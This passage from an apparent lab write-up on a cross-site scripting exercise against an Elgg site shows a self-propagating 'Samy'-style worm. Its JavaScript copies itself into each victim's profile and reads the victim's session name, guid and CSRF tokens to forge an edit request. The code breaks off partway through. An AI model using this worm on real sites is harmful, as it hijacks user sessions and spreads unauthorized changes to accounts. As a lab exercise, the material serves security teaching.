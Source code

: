 ```

```
Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:

![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Scripting-Attack/blob/main/modify%20by%20samy.PNG)

# Task 6

To make the code in Task 5 self-propogating:

### DOM Approach

Do some subtle modification based on the code in Task 5:

```
<script type="text/javascript" id="worm">
  window.onload = function () {
    var headerTag = '<script id="worm" type="text/javascript">';
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" +
      wormCode +
      "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
```